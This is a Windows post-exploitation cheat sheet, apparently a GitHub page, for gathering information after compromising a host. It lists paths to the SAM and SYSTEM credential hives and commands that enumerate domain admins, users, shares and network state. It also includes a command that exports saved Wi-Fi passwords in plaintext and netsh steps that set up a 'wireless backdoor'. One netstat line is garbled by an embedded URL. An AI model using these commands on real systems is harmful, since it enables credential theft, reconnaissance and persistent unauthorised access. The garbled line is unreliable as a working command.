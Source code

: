 # Windows Post exploit CheatSheet

## Information Gathering

### Blind Files

```
%SYSTEMDRIVE%\boot.ini
%WINDIR%\win.ini
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\RegBack\system
%SYSTEMDRIVE%\autoexec.bat
```

### System Commands 

```
whoami
whoami /all
set : Shows all current environmental variables
fsutil fsinfo drives : Must be an administrator to run this, but it lists the current drives on the system
reg query HKLM /s /d /f "C:\* *.exe" | find /I "C:\" | find /V """"
```

### Networking

```
ipconfig /all
ipconfig /displaydns
netstat -nabo
netstat -r
netstat -na http://www.securityaegis.com/ntsd-backdoor/ | findstr :445
netstat -nao | findstr LISTENING
netstat -anob | findstr “services, process or port”
net view : Queries NBNS/SMB (SAMBA) and tries to find all hosts in your current workgroup or domain
net view /domain : List all domains available to the host
net view /domain:otherdomain : Queries NBNS/SMB (SAMBA) and tries to find all hosts in the ‘otherdomain’
net user %USERNAME% /domain
net user /domain
net accounts
net accounts /domain
net localgroup administrators
net localgroup administrators /domain
net group “Domain Admins” /domain
net group “Enterprise Admins” /domain
net group “Domain Controllers” /domain
net share
net session | find / “\\”
arp -a
route print
browstat
netsh wlan show profiles
netsh wlan export profile folder=. key=clear : exports a user wifi profile with the password in plaintext to an xml file in the current working directory
netsh wlan [start|stop] hostednetwork : Starts or stops a wireless backdoor on a windows 7
netsh wlan set hostednetwork ssid=<ssid> key=<passphrase> keyUsage=persistent|temporary : Complete hosted network setup for creating a wireless backdoor on win 7
netsh wlan set hostednetwork mode=[allow|disallow]
wmic ntdomain list : Retrieve information about Domain and Domain Controller
```